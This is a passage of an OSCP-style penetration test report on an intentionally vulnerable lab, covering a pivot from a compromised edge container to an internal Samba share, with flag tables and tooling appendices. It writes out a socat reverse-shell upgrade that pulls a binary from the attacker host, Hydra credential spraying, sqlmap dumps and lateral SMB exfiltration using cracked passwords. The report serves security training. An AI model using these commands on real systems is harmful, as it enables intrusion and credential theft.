Loot that mattered: sqlmap `mail_users` (mailbox creds), root hint file, dual-home edge NIC on the internal Docker network. F5 is **not** reachable from Kali tip nmap — enum and exploit from the edge container after root.

#### Root hint

```bash
# as root on edge container
cat /root/samba-hint.txt
```

```text
Northwind Ops — internal file services
=====================================
CYCLE8-LEDGER L4 (partial): hostname cycle8-samba
Look for a share whose name starts with "Ops".
Mailbox credentials you already cracked are often reused on file shares.
SMTP / IMAP host: cycle8-mail (internal only).
```

Takeaway: pivot target `cycle8-samba`, share prefix `Ops*`, creds = sqlmap mailbox line for `lisa` (`sunshine`, not FTP `peanut`). `cycle8-mail` parked (not required for F5).

**Evidence:**  ·  ·  · 

#### Internal reachability (from edge)

```bash
ping -c 2 cycle8-samba
# 64 bytes from cycle8-samba (172.18.0.2): icmp_seq=1 ttl=64 time=0.xxx ms

getent hosts cycle8-samba
# 172.18.0.2      cycle8-samba
```

Edge dual-home: `172.21.0.2/16` (eth0, tip-facing) + `172.18.0.4/16` (eth1, internal). Samba resolves on the internal bridge only.

**Evidence:**  · 

#### Shell upgrade (TTY for `sudo` / `smbclient`)

Raw PHP/`nc` callback is enough for `id`/`cat` but **not** for `sudo nano` (*Standard input is not a terminal*) or interactive `smbclient`. Two-hop `socat` upgrade:

**Kali — tab 1** (catch PHP shell):

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

**Kali — tab 2** (host static `socat` binary for target):

```bash
cd ~/c8 && python3 -m http.server 8888
# Serving HTTP on 0.0.0.0 port 8888 ...
```

**On target** (from PHP shell — wget binary, then upgrade):

```bash
cd /tmp
wget http://192.168.56.10:8888/socat -O socat && chmod +x socat
ls -la socat
# -rwxr-xr-x 1 501 root 375176 Aug 28 14:06 socat

/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.56.10:4446
```

**Kali — tab 3** (second listener for upgraded TTY):

```bash
socat file:`tty`,raw,echo=0 tcp-listen:4446
# prompt becomes: 1bfed6e4e00a:/tmp$
```

Trigger from Kali (504 expected — PHP hangs on callback):

```bash
curl -sS http://192.168.56.1:8080/www/shell.php
# <html>...504 Gateway Time-out...nginx/1.31.1</html>
```

**Pitfall:** listener port must match on both sides. First attempt used `:4446` on target while Kali only listened on `:4444` → `connect(...:4446): Connection refused`. Fix: run the `:4446` listener before re-firing the upgrade command.

**Evidence:**  ·  ·  ·  · 

#### Samba client on edge + F5

Alpine edge image has no `smbclient` by default:

```bash
apk add --no-cache samba-client
# OK: 12 MiB in 18 packages
```

List shares (non-interactive — interactive `smbclient` breaks on upgraded-but-messy TTY):

```bash
smbclient -L //cycle8-samba -U 'lisa%sunshine'
#   Sharename       Type      Comment
#   ---------       ----      -------
#   OpsFiles        Disk      Ops team file drop
#   IPC$            IPC       IPC Service
```

Enumerate and exfil proof (as root on edge):

```bash
smbclient //cycle8-samba/OpsFiles -U 'lisa%sunshine' -c 'ls'
#   proof.txt                           A       37  Thu Aug 27 15:41:55 2026

smbclient //cycle8-samba/OpsFiles -U 'lisa%sunshine' -c 'get proof.txt'
# getting file \proof.txt of size 37 as proof.txt (9.0 KiloBytes/sec)

cat proof.txt
# OS{d310a0605d95303aa114d707b7686f76}

id
# uid=0(root) gid=0(root) groups=0(root),...
```

**Evidence:**  ·  ·  ·  ·  · 

**Proof (F5)**

- Location: `//cycle8-samba/OpsFiles/proof.txt` (from edge `172.18.0.4`)
- Value: `OS{d310a0605d95303aa114d707b7686f76}`
- **OSCP-style capture command** (root on edge after SMB get):
  ```bash
  cat proof.txt; ip -4 addr show; id
  ```
- Evidence:  · 

**Note:** `cycle8-mail` (SMTP/IMAP) is named in the hint but was not required to recover F5. Kali Host-Only cannot reach internal Samba ports directly — pivot is mandatory.

### 7.1.7 Rabbit holes and decoys

#### SSH `:22` — Cowrie-style honeypot (parked)

```bash
hydra -L ~/c8/users.txt -P /usr/share/wordlists/rockyou.txt \
  ssh://192.168.56.1 -t 4 -f -V
# [22][ssh] host: 192.168.56.1   login: sarah   password: password

ssh sarah@192.168.56.1
# banner / prompt suggests svr04 — thin environment, no graded loot
```

Session anomalies: empty home, missing `ip`, empty `/etc/passwd` via `head`, listable `/root` with no flags. **Not** the graded foothold (real path = FTP → web shell). Timebox and return to FTP chain.

**Evidence:**  ·  ·  · 

#### Intake “legacy FTP” panel — decoy creds

```bash
ftp 192.168.56.1
# Name: admin  Password: NorthwindAdmin!
# 530 Login incorrect.
```

**Evidence:**  · 

#### John — `joe` hash (noise / timebox)

Uncracked MD5 `5e884898da28047151d0e56f8dc62927` after rockyou pass — intentional noise per ledger. Do not burn exam time here.

**Evidence:** 

---

# 8. Appendices

## 8.1 Proof table

| ID | Host | Path / context | Value | Privilege | Screenshot |
| -- | ---- | -------------- | ----- | --------- | ---------- |
| F1 | Northwind | sqlmap `mail_users` (+ UI `q=flag`) — **same value** | `OS{0036b6ceb86445a4c8dce300e4205c43}` | Portal user (JWT) | `041` · `051` |
| F2 | Northwind | FTP `lisa`/`peanut` → `/flag.txt` | `OS{4af4a36815ce627e5d3eba01b57e9376}` | FTP auth | `072` |
| F3 | Northwind (edge) | `/home/ops/user.txt` via PHP revshell | `OS{e0af60da9c8aa1daa4a79f2cb95478d2}` | `ops` (interactive shell) | `081` |
| F4 | Northwind (edge) | `/root/root.txt` via sudo nano | `OS{44d562a5ae240a23b8bbf1c21c605fc3}` | `root` | `090` |
| F5 | cycle8-samba (internal) | SMB `OpsFiles` → `proof.txt` (`lisa`/`sunshine`) | `OS{d310a0605d95303aa114d707b7686f76}` | `root` on edge | `113` · `112` |

**OSCP proof discipline (reference):** For `user.txt` / `root.txt` / `proof.txt` style flags, OffSec expects `cat`/`type` from the original path plus target IP (`ip addr` / `ifconfig`) in the **same** interactive shell screenshot. F1 is a database/UI flag (KC grading), not a filesystem proof file. See §8.8.

## 8.2 Tools used

| Tool | Purpose | Key invocation |
| ---- | ------- | -------------- |
| nmap | Full TCP enum | `nmap -sS -sV -sC -p- --min-rate 2000 -oA ~/c8/nmap-full 192.168.56.1` |
| curl | HTTP headers / API probe / shell trigger | `curl -D- http://192.168.56.1:8080/` |
| gobuster | Light dirbust `:8080` | `gobuster dir -u http://192.168.56.1:8080 -w .../common.txt` |
| sqlmap | Intake SQLi → PG dump | `--headers='Authorization: Bearer …'` + `-D public -T mail_users --dump` |
| John | Hash crack attempt (`joe`) | `john --format=Raw-MD5 --wordlist=rockyou.txt joe.hash` |
| Hydra | FTP / SSH spray | `-L users.txt -P rockyou-50k.txt ftp://192.168.56.1` |
| ftp | Authenticated upload / flag get | `lisa` / `peanut` |
| socat | TTY listeners + target upgrade | `file:tty,raw,echo=0 tcp-listen:4444` / `:4446` |
| python3 | File staging to target | `python3 -m http.server 8888` in `~/c8` |
| wget | Pull socat binary on edge | `wget http://192.168.56.10:8888/socat -O /tmp/socat` |
| smbclient | Internal share enum/exfil | `-c 'ls'` / `-c 'get proof.txt'` (non-interactive) |

## 8.3 Network map (post-compromise)

| Hostname | IP (internal) | Role | Reachable from |
| -------- | ------------- | ---- | -------------- |
| Northwind (tip) | `192.168.56.1` | Published FTP/HTTP/SSH | Kali Host-Only |
| edge container | `172.21.0.2`, `172.18.0.4` | PHP app / revshell / root | Kali via callback; dual-homed |
| cycle8-samba | `172.18.0.2` | SMB `OpsFiles` | edge eth1 only |
| cycle8-mail | (internal DNS) | SMTP/IMAP hint | edge eth1; not required for F5 |

## 8.4 Screenshot index

See [screenshots/README.md](screenshots/README.md).

## 8.5 Risk rating methodology

| Rating | CVSS 3.1 base range | Used for |
| ------ | ------------------- | -------- |
| Critical | 9.0 – 10.0 | Immediate remediation; full compromise or cross-boundary impact |
| High | 7.0 – 8.9 | Significant data/access impact; prioritize within 30 days |
| Medium | 4.0 – 6.9 | Not present as standalone findings in this engagement |
| Low | 0.1 – 3.9 | Decoy UI noise |
| Info | — | Rabbit holes documented for analyst clarity |

Scores calculated with scope (`S:C`) where compromise of the app container affected internal Docker networks. Environmental scores not applied — lab is intentionally flat.

## 8.6 Lab tooling vs OSCP+ exam restrictions

| Tool | This lab (`v1.5.0`) | OSCP+ exam |
| ---- | ------------------- | ---------- |
| sqlmap | **Used** (Intake SQLi) | **Forbidden** — automatic SQL exploitation |
| Hydra | **Used** (FTP/SSH spray) | Allowed |
| John | **Used** (timeboxed) | Allowed |
| nmap / gobuster / curl | **Used** | Allowed |
| Metasploit / Meterpreter | **Not used** | Restricted to one target |

This report documents **lab-intended tradecraft** for Cycle-8 training. On a real OSCP exam, replace sqlmap with manual SQLi extraction while keeping the same documentation discipline.

## 8.7 Metasploit / modified exploits

| Field | Value |
| ----- | ----- |
| Metasploit used | **No** |
| Meterpreter | **No** |
| msfvenom | **No** |
| Modified public exploits | **No** — custom `shell.php` one-liner only (documented in §7.1.4) |
| GTFOBins | [nano](https://gtfobins.github.io/gtfobins/nano/) — documented command execution path |

## 8.8 Evidence and proof capture standards

**Industry / OSCP target frame** (for F3–F5 filesystem proofs):

```bash
# F3 — user flag (ops shell)
cat /home/ops/user.txt; ip -4 addr show; hostname

# F4 — root flag
cat /root/root.txt; ip -4 addr show; id

# F5 — internal proof (after smbclient get)
cat proof.txt; ip -4 addr show; id
```

**What we have:** Screenshots `081`, `090`, `113` plus supporting chain shots `080`, `082`, `112`. Terminal captures vary in quality; **commands and annotated output in this report are the reproducibility source of truth.** F1/F2 proofs are API dump and FTP file respectively (KC flag model).

**Web shells:** OffSec does not accept proof obtained via web shell alone — F3–F5 were validated from interactive callbacks upgraded where required (§7.1.6).

## 8.9 Hash cracking and credential notes

| Hash / account | Format | Tool | Result | Consumed by |
| -------------- | ------ | ---- | ------ | ----------- |
| `joe` | Raw MD5 `5e884898…` | John + rockyou | **No crack** | Noise / timebox |
| `mail_users.*` | MD5 (sqlmap dict) | sqlmap built-in | Most rows cracked | Hydra user list; SMB `lisa`/`sunshine` — see **A04:2025** Cryptographic Failures |
| `lisa` FTP | cleartext via spray | Hydra + rockyou-50k | **`peanut`** | F2, F3 upload |
| `lisa` mailbox/SMB | cleartext from dump | sqlmap | **`sunshine`** | F5 SMB auth |
| `sarah` SSH | cleartext via spray | Hydra | **`password`** | Cowrie rabbit hole only |

**Redundancy check (lab design):** FTP password ≠ mailbox password for `lisa` — forces Hydra after dump, not single-credential reuse across all gates.

## 8.10 OWASP Top 10:2025 — engagement mapping

Reference: [OWASP Top 10:2025](https://owasp.org/Top10/2025/)

| ID | Category | Applicable to this assessment |
| -- | -------- | ----------------------------- |
| A01:2025 | Broken Access Control | **Yes** — internal SMB reachable from edge; lateral exfil (F5) |
| A02:2025 | Security Misconfiguration | **Yes** — sudo NOPASSWD nano; FTP/webroot overlap |
| A03:2025 | Software Supply Chain Failures | No — not in scope |
| A04:2025 | Cryptographic Failures | **Yes** — MD5 password hashes in `mail_users` dump |
| A05:2025 | Injection | **Yes** — Intake SQLi (F1) |
| A06:2025 | Insecure Design | **Yes** — shared FTP/webroot; decoy cred UI |
| A07:2025 | Authentication Failures | **Yes** — weak FTP password; credential reuse on SMB |
| A08:2025 | Software or Data Integrity Failures | Partial — untrusted file upload (PHP shell) |
| A09:2025 | Security Logging and Alerting Failures | Not assessed — no log review performed |
| A10:2025 | Mishandling of Exceptional Conditions | Partial — 504 on shell trigger; not exploited as vuln |

---

# 9. Limitations and assumptions

This assessment reflects the **intentional insecure tip** (`v1.5.0`) on an isolated Docker Host-Only lab — not a production Northwind deployment.

| Topic | Limitation |
| ----- | ---------- |
| **Point in time** | Findings valid for build tagged `v1.5.0` / branch `ctf/v1.5.0` as tested 2026-08-27–28 |
| **Scope** | No AD, no Windows client attacks, no physical/social vectors |
| **Availability** | No DoS or stress testing performed |
| **Automation** | sqlmap/Hydra used per lab design; not representative of all client RoE |
| **Internal hosts** | `cycle8-samba` / `cycle8-mail` assessed only via pivot from edge — not directly from Kali |
| **Evidence quality** | Some terminal screenshots are fragmented; command transcripts in §6–§7 are authoritative for reproduction |
| **Retest** | Remediation verification deferred to Blue cycle (`v2.5.0`) and post-Blue examiner run |
| **Compliance mapping** | CWE + OWASP Top 10:2025 provided for training; formal PCI/ISO evidence mapping not in scope for this lab report |

**Assumptions:** Tip stack was up and reachable at `192.168.56.1`; attacker had network access equivalent to an internal user on the Host-Only segment; no WAF or EDR beyond what the lab ships.
